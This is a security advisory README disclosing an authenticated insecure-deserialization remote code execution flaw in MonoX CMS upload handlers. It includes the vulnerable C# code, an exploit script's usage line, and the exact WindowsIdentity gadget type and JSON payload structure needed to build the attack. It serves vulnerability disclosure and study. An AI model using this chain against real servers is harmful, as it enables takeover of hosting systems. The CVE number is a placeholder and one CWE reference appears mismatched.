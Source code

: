 # HTML5Upload and SilverLightUploadHandler - Remote Code Execution via Insecure Deserialization

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadHandler`. The combined manipulation of the of the **ThumbnailSizeArgs** an **ThumbnailSizeType** parameters leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit script is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily found through a deep code analysis. The affected code block is the following one:

```csharp
if (base.Request.Form["ThumbnailSizeArgs"] != null && base.Request.Form["ThumbnailSizeType"] != null)
    {
        try
        {
            string @string = Encoding.UTF8.GetString(Convert.FromBase64String(base.Request.Form["ThumbnailSizeType"]));
            this.ThumbnailSize = (JsonSerializer.Deserialize(Convert.FromBase64String(base.Request.Form["ThumbnailSizeArgs"]), Type.GetType(@string)) as ThumbnailSizeEventArgs);
        }
        catch (Exception logMessage)
        {
            this.log.Error(logMessage);
        }
    }
```

As observable, the JsonSerializer is deserializaing directly the request parameter `ThumbnailSizeArgs`, without any prior validation of its content.

The `JsonSerializer` object is an instance of the custom MonoX class `MonoSoftware.Core.JsonSerializer`. Studing this class, it was possible to identify the actual implementation of the Deserialize function call:

```csharp
public static object Deserialize(Stream content, Type type)
    {
        DataContractJsonSerializer dataContractJsonSerializer = new DataContractJsonSerializer(type);
        DataContractJsonSerializer dataContractJsonSerializer2;
        if (5 != 0) // Decompiled if
        {
            dataContractJsonSerializer2 = dataContractJsonSerializer;
        }
        return dataContractJsonSerializer2.ReadObject(content);
    }
```

From that, it was possible to ascertain that the deserialization routine was using `DataContractJsonSerializer`, taking `ThumbnailSizeArgs` as the seriliazed payload, and `ThumbnailSizeType` as the type to use for deserialization.

`DataContractJsonSerializer` is one of the .NET formatters that are basically secure, and usually free from deserialization issues, as it uses a strong object graph inspection, forbidding the deserialization of non-whitelisted objects. However, even `DataContractJsonSerializer` can be affected by insecure deserialization if the "Type" parameter passed to `Deserialize` is controllable by an external attacker, as this "Type" is automatically added to the whitelist. It may be obvious, but that was the case.

As no automatic payload generator was available in **ysoserial.net**, crafting the payload for this instance required a bit of manual interaction. After a bit of research, it was clear that `WindowsIdentity` was the right POP chain to use, as it supports `DataContractSerializer`, and because its payload is a "one level" XML.

```xml
<root type="System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <WindowsIdentity xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:x="http://www.w3.org/2001/XMLSchema" xmlns="http://schemas.datacontract.org/2004/07/System.Security.Principal">
      <System.Security.ClaimsIdentity.actor i:type="x:string" xmlns="">
          {base64-encoded-payload}
      </System.Security.ClaimsIdentity.actor>
       </WindowsIdentity>
</root>
```
From the XML above, it was possible to identify all the needed information to craft the final exploit:

**Type**

```
System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

**Payload**

Transformed in JSON format, the payload was reduced to:

```json
{"System.Security.ClaimsIdentity.actor":"[base64-encoded-payload]"}
```

Upon deserialization, it was then possible to execute arbitrary code on the underlying Windows Hosting Server.  

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)